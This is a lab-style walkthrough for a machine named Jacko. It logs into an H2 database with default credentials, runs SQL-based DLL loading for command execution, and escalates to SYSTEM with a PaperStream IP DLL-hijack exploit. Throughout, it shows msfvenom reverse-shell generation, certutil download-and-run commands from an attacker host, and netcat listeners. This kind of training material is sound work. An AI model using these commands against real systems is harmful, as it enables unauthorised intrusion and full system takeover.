 _____

# Exploitation Guide for Jacko

## Summary

We discover a misconfigured H2 database with default credentials running on this machine. We'll exploit this misconfiguration to gain command execution. Finally, we'll escalate our privileges by exploiting a DLL hijacking vulnerability in Fujitsu's Paperstream IP program.

## Enumeration

### Nmap

We'll begin with an `nmap` scan.

```
kali@kali:~$ sudo nmap 192.168.140.66
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-05 06:35 EST
Nmap scan report for 192.168.140.66
Host is up (0.32s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8082/tcp open  blackice-alerts

Nmap done: 1 IP address (1 host up) scanned in 20.08 seconds
```

### H2 Database

Port 8082 is serving a web interface for an H2 database. In the [quickstart section of the H2 documentation](http://www.h2database.com/html/quickstart.html), we find that the default username is `sa` with a blank password. We're able to log in with these credentials and execute SQL queries.

## Exploitation

### H2 Database Code Execution

We find [this exploit](https://www.exploit-db.com/exploits/49384) on EDB that describes how to achieve remote code execution on H2 without JDK installed on the target machine. As detailed in the exploit, we'll first execute the SQL statement to write our DLL to the **C:\Windows\Temp** directory.

```
SELECT CSVWRITE('C:\Windows\Temp\JNIScriptEngine.dll', CONCAT('SELECT NULL "', CHAR(0x4d),...,'"'), 'ISO-8859-1', '', '', '', '', '');
```

Next, we'll run the following SQL commands to load our DLL and create an alias for it:

```
CREATE ALIAS IF NOT EXISTS System_load FOR "java.lang.System.load";
CALL System_load('C:\Windows\Temp\JNIScriptEngine.dll');
```

Finally, we can run the following statements to achieve command execution:

```sql
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
desktop-cmvk5k4\tony
```

### H2 Database Reverse Shell

Now let's try to pivot this into a reverse shell. To do this, we'll first generate an MSFVenom reverse shell payload.

```
kali@kali:~$ msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.118.3 LPORT=8082
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

Next, we'll host this payload over HTTP.

```
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's start a Netcat handler to catch our shell.

```
kali@kali:~$ nc -lvp 8082
listening on [any] 8082 ...
```

To trigger our shell, we'll run the following SQL statement to download our payload to the target machine:

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.118.3/shell.exe C:/Windows/Temp/shell.exe").getInputStream()).useDelimiter("\\Z").next()');
```

We can now execute our payload with the following SQL statement:

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:/Windows/Temp/shell.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Finally, we catch our reverse shell. We'll also fix our `PATH` variable so that we can execute some common commands.

```
kali@kali:~$ nc -lvp 8082
listening on [any] 8082 ...
192.168.140.66: inverse host lookup failed: Unknown host
connect to [KALI] from (UNKNOWN) [192.168.140.66] 49813
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\H2\service>set PATH=%SystemRoot%\system32;%SystemRoot%;
set PATH=%SystemRoot%\system32;%SystemRoot%;

C:\Program Files (x86)\H2\service>whoami
whoami
jacko\tony
```

## Escalation

### Service Enumeration

Within **C:\Program Files (x86)**, we find an interesting program: **PaperStream IP**.

```
C:\Program Files (x86)\H2\service>dir "C:\Program Files (x86)"
dir "C:\Program Files (x86)"
 Volume in drive C has no label.
 Volume Serial Number is AC2F-6399

 Directory of C:\Program Files (x86)

04/27/2020  08:01 PM    <DIR>          .
04/27/2020  08:01 PM    <DIR>          ..
04/27/2020  07:59 PM    <DIR>          Common Files
04/27/2020  08:01 PM    <DIR>          fiScanner
04/27/2020  07:59 PM    <DIR>          H2
04/24/2020  08:50 AM    <DIR>          Internet Explorer
03/18/2019  08:52 PM    <DIR>          Microsoft.NET
04/27/2020  08:01 PM    <DIR>          PaperStream IP
03/18/2019  10:20 PM    <DIR>          Windows Defender
03/18/2019  08:52 PM    <DIR>          Windows Mail
04/24/2020  08:50 AM    <DIR>          Windows Media Player
03/18/2019  10:23 PM    <DIR>          Windows Multimedia Platform
03/18/2019  09:02 PM    <DIR>          Windows NT
03/18/2019  10:23 PM    <DIR>          Windows Photo Viewer
03/18/2019  10:23 PM    <DIR>          Windows Portable Devices
03/18/2019  08:52 PM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              16 Dir(s)   6,925,905,920 bytes free
```

The **readmeenu.rtf** file contains the version information.

```
C:\Program Files (x86)\H2\service> type "C:\Program Files (x86)\PaperStream IP\TWAIN\readmeenu.rtf"
{\rtf1\ansi\ansicpg932\deff0\deflang1033\deflangfe1041{\fonttbl{\f0\fnil\fcharset0 Microsoft Sans Serif;}{\f1\fswiss\fprq2\fcharset0 Microsoft Sans Serif;}}
{\colortbl ;\red0\green0\blue0;}
{\*\generator Msftedit 5.41.21.2510;}\viewkind4\uc1\pard\nowidctlpar\sl276\slmult1\f0\fs18 ---------------------------------------------------------------------------------------------------------\par
fi Series\par
PaperStream IP driver 1.42\par
README file\par
---------------------------------------------------------------------------------------------------------\par
Copyright PFU LIMITED 2013-2016\par
\par
\par
This file includes important notes on this product and also the additional information not included in the manuals.\par
\par
---------------------------------------------------------------------------------------------------------\par
```

### PaperStream IP Exploitation

Searching EDB for this program and version information, we discover [CVE-2018-16156](https://www.exploit-db.com/exploits/49382). To exploit this, we'll first generate a reverse shell payload.

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.118.3 LPORT=8082
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
Saved as: shell.dll
```

We'll then host our malicious DLL and the PaperStream exploit over HTTP.

```
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We can now download them to the target machine.

```
C:\Program Files (x86)\H2\service>cd \Windows\Temp
cd \Windows\Temp

C:\Windows\Temp>certutil -urlcache -split -f http://192.168.118.3/shell.dll shell.dll
certutil -urlcache -split -f http://192.168.118.3/shell.dll shell.dll
****  Online  ****
  0000  ...
  1400
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp>certutil -urlcache -split -f http://192.168.118.3/exploit.ps1 exploit.ps1
certutil -urlcache -split -f http://192.168.118.3/exploit.ps1 exploit.ps1
****  Online  ****
  0000  ...
  0937
CertUtil: -URLCache command completed successfully.
```

Next, we'll start a Netcat handler to catch our reverse shell.

```
kali@kali:~$ nc -lvp 8082
listening on [any] 8082 ...
```

Let's run our exploit.

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe C:\Windows\Temp\exploit.ps1
Writable location found, copying payload to C:\JavaTemp\
Payload copied, triggering...
```

If all goes as planned, we'll catch our reverse shell as `nt authority\system`.

```
kali@kali:~$ nc -lvp 8082
listening on [any] 8082 ...
192.168.179.66: inverse host lookup failed: Host name lookup failure
connect to [KALI] from (UNKNOWN) [192.168.179.66] 49883
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```